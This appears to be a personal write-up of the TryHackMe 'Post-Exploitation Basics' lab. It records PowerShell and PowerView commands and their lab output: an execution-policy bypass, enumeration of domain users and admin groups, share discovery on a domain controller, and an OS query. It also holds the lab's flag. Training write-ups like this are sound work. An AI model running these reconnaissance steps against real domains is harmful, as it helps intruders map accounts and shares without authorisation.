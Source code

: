 

From Post-Exploitation Basics of TryHackMe.
(Immagini prese da TryHackMe)

Start Powershell

powershell -ep bypass


Start PowerView:
. .\Downloads\PowerView.ps1

Enumerate the domain users - Get-NetUser \| select cn 

PS C:\Users\Administrator> Get-NetUser \| select cn

cn\\
Administrator\\
Guest\\
krbtgt\\
Machine-1\\
Admin2\\
Machine-2\\
POST{P0W3RV13W_FTW}\\
sshd


Enumerate the domain groups - Get-NetGroup -GroupName \*admin\*
PS C:\Users\Administrator> Get-NetGroup -GroupName \*admin\*
Administrators\\
Hyper-V Administrators\\
Storage Replica Administrators\\
Schema Admins\\
Enterprise Admins\\
Domain Admins\\
Key Admins\\
Enterprise Key Admins\\
DnsAdmins

PowerView Tricks:
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993



Folder: 
PS C:\Users\Administrator> Invoke-ShareFinder
\\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin 
\\Domain-Controller.CONTROLLER.local\C$         - Default share
\\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
\\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
\\Domain-Controller.CONTROLLER.local\Share      -
\\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share




What operating system is running inside of the network:
PS C:\Users\Administrator> Get-NetComputer -fulldata | select operatingsystem
